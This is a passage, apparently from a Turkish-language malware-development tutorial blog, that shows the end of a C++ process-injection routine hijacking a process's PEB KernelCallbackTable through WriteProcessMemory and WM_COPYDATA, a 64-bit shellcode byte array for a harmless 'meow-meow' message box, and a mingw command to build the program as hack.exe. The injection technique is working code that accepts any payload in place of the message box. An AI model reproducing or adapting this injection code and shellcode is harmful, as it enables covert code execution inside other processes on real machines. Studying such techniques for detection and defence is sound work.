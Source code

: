 ```cpp
  SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
  WriteProcessMemory(ph, 
  (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable),
  &peb.KernelCallbackTable, sizeof(ULONG_PTR), NULL);

  VirtualFreeEx(ph, rb, 0, MEM_RELEASE);
  VirtualFreeEx(ph, tb, 0, MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

Her zamanki gibi, basitlik adına, payload olarak `meow-meow` mesaj kutusunu kullandım:
     
```cpp
unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Şimdi her şeyi eylemde görelim. Örneğimizi derleyelim:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ \
-I/home/.../cybersec_blog/2022-01-24-malware-injection-15/ \
-s -ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```
